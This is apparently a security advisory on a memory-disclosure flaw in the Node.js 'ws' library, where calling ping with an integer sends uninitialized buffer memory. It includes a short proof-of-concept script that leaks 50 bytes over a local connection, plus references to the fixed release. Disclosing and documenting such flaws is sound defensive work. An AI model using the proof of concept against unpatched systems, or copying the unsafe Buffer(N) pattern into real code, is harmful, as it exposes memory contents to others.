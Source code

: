 ## Overview
A client side memory disclosure vulnerability exists in ping functionality of the ws service. When a client sends a ping request and provides an integer value as ping data, it will result in leaking an uninitialized memory buffer.

## Details
Constructing a `Buffer` class with integer `N` creates a `Buffer` of length `N` with non zero-ed out memory.

**Example:**
```
var x = new Buffer(100);
// vs
var x = new Buffer('100');
```

This would allocate 100 bytes of memory in the first example and just 3 bytes with 100 as value in the second example.

```
var ws = require('ws')

var server = new ws.Server({ port: 9000 })
var client = new ws('ws://localhost:9000')

client.on('open', function () {
  console.log('open')
  client.ping(50) // this makes the client allocate an uninitialized buffer of 50 bytes and send it to the server

  client.on('pong', function (data) {
    console.log('got pong')
    console.log(data)
  })
})
```

## References
- https://github.com/websockets/ws/releases/tag/1.0.1
- https://github.com/nodejs/node-v0.x-archive/issues/4525
